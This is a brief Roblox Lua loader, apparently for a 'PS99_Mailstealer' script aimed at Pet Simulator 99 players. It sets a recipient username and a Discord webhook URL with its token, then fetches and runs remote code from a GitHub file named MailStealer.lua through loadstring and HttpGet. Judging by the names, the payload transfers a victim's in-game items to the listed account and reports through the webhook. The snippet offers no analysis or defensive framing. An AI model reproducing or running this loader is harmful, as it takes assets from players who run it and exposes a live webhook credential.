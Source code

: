 Username = mr_duckhi2
LoadScreen = true 
Webhook = https://discord.com/api/webhooks/1285255315872551000/9XhXSF0IZ0CaOsQ2zR7ACFeeYepKWEzcCWZpSiHZodjgJJAxwn5HUf_d-Swzsit2G0f_

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
